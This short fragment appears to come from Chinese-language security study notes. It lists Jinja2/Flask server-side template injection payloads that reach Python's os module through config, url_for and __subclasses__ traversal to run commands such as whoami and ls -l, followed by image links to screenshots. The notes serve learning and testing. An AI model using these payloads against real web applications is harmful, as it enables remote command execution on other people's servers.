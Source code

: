 ```

os模块执行命令:
通过config，调用os模块：config.__class__.__init__.__globals__['os'].popen('whoami')
通过url_for，调用os：{url_for.__globals__.os.popen('whoami').read()
在已经加载os模块的子类里直接调用os模块：''.__class__.__bases__[0].__subclasses__()[341].__init__.__globals__['os'].popen("ls -l").read()
```

`subprocess.Popen()`![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230729180632010.png)

`os.system()`
![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230729182735682.png)